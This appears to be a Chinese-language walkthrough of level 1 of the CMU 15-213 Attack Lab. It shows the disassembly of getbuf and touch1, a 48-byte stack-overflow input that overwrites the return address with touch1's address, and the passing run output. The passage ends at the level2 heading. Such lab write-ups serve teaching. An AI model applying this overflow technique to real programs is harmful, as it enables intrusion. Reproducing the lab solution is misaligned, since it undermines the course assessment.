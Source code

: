 ```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

在level1中我们需要通过CI让test执行时跳转到touch1中，而程序的跳转和rsp寄存器有关，一开始rsp给了0x28的空间供getbuf栈帧使用，但如果getbuf输入了40字节以上，就会将父帧test的状态破坏。基于这个原理，我们处理方式也比较简单直接，首先用随意内容填充前40字节，再追加touch1的入口地址，这样当getbuf返回时，rsp会将该地址弹出到pc，从而成功执行touch1的代码。由于touch1最后直接exit了，所以我们无需关心进入touch1之后发生的事情。

另外，为了方便我们填充字节，lab提供了一个16进制转换工具，我们按照附录示例方式写入即可，写入方式也挺多样的。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40个空白字符 */
c0 17 40 00 00 00 00 00 /* 目标touch1入口地址 */
```

```bash
[root@MiWiFi-R4A-srv target1]# ./hex2raw < ctarget.l1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

另外，Intel 8086系列都是小端对齐的，也就是低地址放低位，如0x00000000004017c0，c0在最低位所以应该放在地址最小的位置，也就是起始位置。这里可能不好想象，比如一台64位机器，栈上每层都是8字节，我的ctarget.l1.txt也是按这种方式排列的，便于参考阅读。

## level2
